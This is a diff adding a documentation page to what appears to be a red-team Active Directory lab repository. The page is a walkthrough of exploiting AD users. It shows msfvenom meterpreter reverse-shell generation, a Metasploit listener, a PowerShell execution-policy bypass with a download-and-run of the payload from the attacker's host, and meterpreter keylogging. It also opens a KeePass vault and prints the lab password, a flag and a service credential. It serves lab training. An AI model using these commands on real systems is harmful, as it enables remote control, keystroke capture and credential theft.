

Before and after one commit to tymyrddin/red-ad, a Sphinx documentation site: the page built from source/docs/exploit/users.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/source/docs/exploit/users.md
+++ b/source/docs/exploit/users.md
@@ -1 +1,82 @@
-# Exploiting AD Users
+# Exploiting AD users
+
+Users are, unfortunately, often the weakest link in the security chain. Just think about weak passwords and bad
+habits, such as granting overly permissive permissions. It would be ignorant and ineffective to overlook this
+attack surface:
+
+* Credential Management - How users store their credentials. In AD, this is quite important since users may have
+multiple sets of credentials and remembering all of them can be a hassle.
+* Keylogging - Often, during exploitation, we need to understand how normal users interact with a system. Together
+with screengrabs, keylogging can be a useful tool to gain this understanding from an attacker's perspective.
+
+Using our WinRM shell from [Kerberos delegation](kerberos.md), we do some post-exploit enumeration and come across a
+`.kdbx` file in `C:\Users\trevor.local\Documents`. It's likely a password vault that's been encrypted with a strong
+password.
+
+## Payload
+
+Generate a meterpreter payload:
+
+    msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.50.57.175 LPORT=443 -f psh -o pwn.ps1
+
+Start a listener:
+
+```text
+sudo msfconsole
+
+msf6> use exploit/multi/handler
+msf6> set payload windows/x64/meterpreter_reverse_tcp
+msf6> set LHOST kali-vpn-ip
+msf6> set LPORT 443
+msf6> run
+```
+
+## Transfer the payload to the target
+
+Start a Python web server on Kali:
+
+    sudo python3 -m http.server 80
+
+Download the file onto `THMSERVER1` via the `WinRM` session and execute it:
+
+    powershell.exe -ep bypass
+
+Create a web client object:
+
+    $wc = New-Object Net.WebClient
+
+Download `pwn.ps1` from Kali and save it in the current directory:
+
+    $wc. DownloadFile('http://10.50.57.175/pwn.ps1', "$PWD\pwn.ps1")
+    .\pwn.ps1
+
+Start the keylogger
+
+    meterpreter > keyscan_start
+
+Dump captured keystrokes
+
+    meterpreter > keyscan_dump
+
+Stop the keylogger
+
+    meterpreter > keyscan_stop
+
+## Get flag
+
+```text
+sudo apt install -y kpcli
+kpcli
+
+# Password is: Imreallysurenoonewillguessmypassword
+kpcli:/> open PasswordDatabase.kdbx
+kpcli:/> ls
+kpcli:/> ls PasswordDatabase/*
+kpcli:/> show -f -a PasswordDatabase/General/Flag
+
+THM{AD.Users.Can.Give.Up.Good.Secrets}
+
+kpcli:/> show -f -a PasswordDatabase/General/svcServMan
+
+Sup3rStr0ngPass!@
+```
````
